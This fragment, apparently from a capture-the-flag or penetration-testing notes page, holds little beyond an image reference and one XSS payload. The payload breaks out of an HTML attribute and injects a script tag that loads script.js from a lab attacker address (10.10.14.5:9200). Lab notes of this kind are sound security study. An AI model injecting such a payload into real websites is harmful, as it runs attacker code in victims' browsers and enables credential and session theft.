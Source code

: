 <figure><img src="../../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

```
"><script src=http://10.10.14.5:9200/script.js></script>
```
